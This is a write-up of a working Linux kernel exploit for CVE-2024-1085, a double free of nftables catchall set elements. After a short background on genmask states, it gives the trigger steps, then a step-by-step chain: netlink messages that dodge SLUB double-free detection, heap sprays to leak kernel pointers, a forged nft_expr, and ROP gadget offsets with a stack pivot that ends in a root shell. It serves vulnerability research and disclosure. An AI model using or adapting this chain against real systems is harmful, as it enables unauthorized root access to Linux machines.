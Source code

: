 # Exploit detail about CVE-2024-1085
If you want to get some base information about CVE-2024-1085, please read [vulnerability.md](./vulnerability.md) first.

## Background
nftables is a netfilter project that aims to replace the existing {ip,ip6,arp,eb}tables framework, providing a new packet filtering framework for {ip,ip6}tables, a new userspace utility (nft) and A compatibility layer. It uses existing hooks, link tracking system, user space queuing component and netfilter logging subsystem.

It consists of three main components: kernel implementation, libnl netlink communication and nftables user space front-end. The kernel provides a netlink configuration interface and runtime rule set evaluation. libnl contains basic functions for communicating with the kernel. The nftables front end is for user interaction through nft.

nftables implements data packet filtering by using some components like `table`, `set`, `chain`, `rule`.

### Genmask States of nftables
In nftable, developers use `genmask` in many objects to mark the state of the object. `genmask` has two important flags, which represent whether the object is available in the current task and the next batch of tasks.

```c
/*
 * Generic transaction helpers
 */

/* Check if this object is currently active. */
#define nft_is_active(__net, __obj)				\
	(((__obj)->genmask & nft_genmask_cur(__net)) == 0)

/* Check if this object is active in the next generation. */
#define nft_is_active_next(__net, __obj)			\
	(((__obj)->genmask & nft_genmask_next(__net)) == 0)

/* This object becomes active in the next generation. */
#define nft_activate_next(__net, __obj)				\
	(__obj)->genmask = nft_genmask_cur(__net)

/* This object becomes inactive in the next generation. */
#define nft_deactivate_next(__net, __obj)			\
        (__obj)->genmask = nft_genmask_next(__net)

/* After committing the ruleset, clear the stale generation bit. */
#define nft_clear(__net, __obj)					\
	(__obj)->genmask &= ~nft_genmask_next(__net)
#define nft_active_genmask(__obj, __genmask)			\
	!((__obj)->genmask & __genmask)
```

When an object is deleted, developers usually call `nft_deactivate_next` to modify its `genmask`. Similarly, when developers need to confirm which objects have not been deleted, they need to use `nft_is_active_next` to check to avoid double free and other problems.

## Cause anaylysis

In function `nft_setelem_catchall_deactivate`, it checks if an elem is active by this : 

```c
...
list_for_each_entry(catchall, &set->catchall_list, list) {
		ext = nft_set_elem_ext(set, catchall->elem);
		if (!nft_is_active(net, ext))
			continue;
...
```
but it should use function `nft_is_active_next`. This vulnerability makes it possible to free a catchall->elem twice.


## Triggering the vulnerability

It's easy to trigger it by following this steps:

- Create a pipapo set A, and a catchall set element B in pipapo set A.
- Delete element B. 
- Delete element B again. 

By the way, we need to send the command of step 2 and step 3 together because we need to avoid set element B being actually released before our step 3.

## Exploit it

### Target object caches
Because the `struct nft_set_elem->priv` (which is allocated in function `nft_set_elem_init`)object size we plan to use is between 0xc0-0x100, our target object cache is `kmalloc-256`.

### Exploit detail
I exploit CVE-2024-1085 by following steps:

- 1. Create a pipapo set `A`, and a catchall set element `B` in it. Create a `bitmap set` which name is "set bitmap for exp".
- 2. Trigger the vulnerability by following messages:
   
   ```c
    msg_list[0] = del_setelem_msg(table, pipapo_set, NULL, 0, NULL, 0, 1);//delete the catchall set element first time
    msg_list[1] = del_table_msg(table_obj_for_double_free_bypass);////kfree the table -> udata, so we can kfree another heap object in the same kmalloc-256 cache as our catchall set element to avoid the naive double free detection in the SLUB allocator: https://lore.kernel.org/lkml/1edb137c-356f-81d6-4592-f5dfc68e8ea9@linux.com/t/
    msg_list[2] = del_setelem_msg(table, pipapo_set, NULL, 0, NULL, 0, 1);//delete the catchall set element second time
    send_msg_list(socket, msg_list, 3);
   ```
   	After this we kfree the catchall set element `B` twice. This makes it possiable that we alloc the heap back twice.
- 3. Try to alloc the heap of the catchall set element `B` back by creating `nft_table` with `NFTA_TABLE_USERDATA`. Keep allocing heap, and each time you alloc a heap, check whether the heap has been alloced for(confirmed by whether the memory of the already created heap has been modified). After this step, We will find two `nft_table` with the same `udata`. We assume that the two `nft_tables` are `nft_table C` and `nft_table D`.
- 4. Delete `nft_table C`.
- 5. Spray heap to get the heap of `nft_table C->udata`
back. I spray heap by creating set element with `NFTA_SET_ELEM_EXPR` in `bitmap_set` because I want to leak the `ops` pointer of the `nft_expr`.
- 6. Dump `nft_table D`. Now we leak `nft_last_ops`. `nft_table D`'s `udata` contains the sprayed nft_expr object, so we can leak it's ops field which contains `nft_last_ops`.
- 7. Create another set element `E` in `bitmap_set`. Then dump the `nft_table D` again. We can get the pointer of the set element `E` because each bitmap set element has a doubly linked list.
  ```c
  struct nft_bitmap_elem {
	struct list_head	head;
	struct nft_set_ext	ext;
	};
  ```
- 8. Delete set element `E`. Fill the heap memory of set element `E` through heap spraying.
  ```c
    //ops->dump
    *(uint64_t *)&pad[0x40] = kernel_off + 0xffffffff810b9f43;//leave ; ret
    //ops->type
    *(uint64_t *)&pad[0x78] = kernel_off + 0xFFFFFFFF83967420;//last type
    spray_tables(socket,0x200, pad, 0x80);
  ```
- 9. Delete `nft_table D`.
- 10. Fill the heap memory of `nft_table D ->udata` with fake `nft_expr` and ROP gadget.
- 11. Dump the set elements we create in step 5. Finally we will jmp to our ROP gadget.
    ```c
	static int nf_tables_fill_expr_info(struct sk_buff *skb,
						const struct nft_expr *expr)
	{
		if (nla_put_string(skb, NFTA_EXPR_NAME, expr->ops->type->name))
			goto nla_put_failure;

		if (expr->ops->dump) {
			struct nlattr *data = nla_nest_start_noflag(skb,
									NFTA_EXPR_DATA);
			if (data == NULL)
				goto nla_put_failure;
			if (expr->ops->dump(skb, expr) < 0) //we hijack RIP here
				goto nla_put_failure;
			nla_nest_end(skb, data);
		}
	...

  ```

### ROP detail

The assembly code when calling expr->ops->dump is as follows:

```
	mov     rax, [rbp+0]
	mov     rsi, rbp
	mov     rdi, rbx
	mov     rax, [rax+40h]
	call    __x86_indirect_thunk_rax
```
So the `rbp` is the pointer of the current `nft_expr`. We fill it by following:
```c
	...
	//build fake setelem
    *(uint64_t *)&setelem_data[0x28] = ops_addr; //expr[0]->ops
    //start ROP
    *(uint64_t *)&setelem_data[0x30] = kernel_off + 0xffffffff8112af10;//pop rdi; ret  expr[0]->data
	...
```

The first step of ROP start looks like this(We fill the ops pointer in step 8):
```
expr->ops->dump(skb, expr)  --> leave ; ret 
```
This will finally makes this happen:

```
rsp = element + 0x28 // mov rsp, rbp  
rbp = *(element + 0x28) //pop rbp  rbp=*(&setelem_data[0x28])
rsp = element + 0x30 
rip = *(element + 0x30) //ret   rip=*(&setelem_data[0x30])
rsp = element + 0x38 
```
After completing the stack migration, we can run ROPgadget and finally get the root shell.
